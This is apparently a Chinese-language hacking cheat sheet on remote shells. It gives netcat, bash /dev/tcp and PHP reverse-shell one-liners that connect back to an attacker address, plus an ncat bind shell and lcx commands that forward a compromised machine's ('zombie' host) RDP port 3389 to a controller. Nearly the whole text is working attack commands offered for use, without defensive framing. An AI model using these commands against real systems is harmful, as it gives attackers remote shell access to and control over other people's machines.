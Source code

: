 ![1563198433541](IMG/1563198433541.png)

> 需要注意的是, 反弹的shell里不能删除命令, 也不能用Ctrl C, 否则会马上断开

#### linux反向连接windows

```shell
nc [ip] 8888 -e /bin/sh         //linux的shell
	//还有其它不用netcat的反弹方法
	bash -i >& /dev/tcp/10.0.0.1/8888 0>&1
	#php版本：
     php -r '$sock=fsockopen("10.0.0.1",8888);exec("/bin/sh -i <&3 >&3 2>&3");'	
     

nc -lvvp 8888 	                //监听都是这个命令
```

ref:[nc反弹shell](https://www.jianshu.com/p/5b73a607e2ea)

#### 正向连接

```shell
nc -vv [ip_of_slave] 8888      //控制端主动连接

ncat -lp 8888 -e /bin/bash    //linux受控端监听并转发给shell, 注意此处写nc是不行的
```

#### LCX.EXE

```
lcx -slave [rhost] [rport] [lhost] [lport]     // 肉鸡发起连接,将本地lport(如3389)转发到控制端的rport
lcx -listen [lhost]	[port]		//[port]指其它未被占用的端口,本地连接时就用它, 如8888
```
